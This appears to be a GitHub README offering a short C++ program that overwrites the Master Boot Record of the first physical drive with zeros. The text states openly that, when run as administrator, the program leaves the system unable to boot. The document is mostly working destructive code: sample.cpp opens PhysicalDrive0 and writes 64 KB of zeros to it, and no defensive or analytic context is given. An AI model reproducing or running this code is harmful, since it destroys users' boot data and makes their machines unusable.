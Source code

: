 
# C++ Overwrite MBR (Master Boot Record)
If the C ++ code is executed as an administrator, the MBR will be overwritten with many zeros and you will no longer be able to enter the system after a restart.

#


`sample.cpp`
```cpp
#include <windows.h>
int main()
{

	HANDLE MasterBootRecord = CreateFileA("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0);

    unsigned char* bootcode = (unsigned char*)LocalAlloc(LMEM_ZEROINIT, 65536);

    if (MasterBootRecord == INVALID_HANDLE_VALUE)
        ExitProcess(2);

    DWORD w;
    if (!WriteFile(MasterBootRecord, bootcode, 65536, &w, NULL))
        ExitProcess(3);
    CloseHandle(MasterBootRecord);

}
```
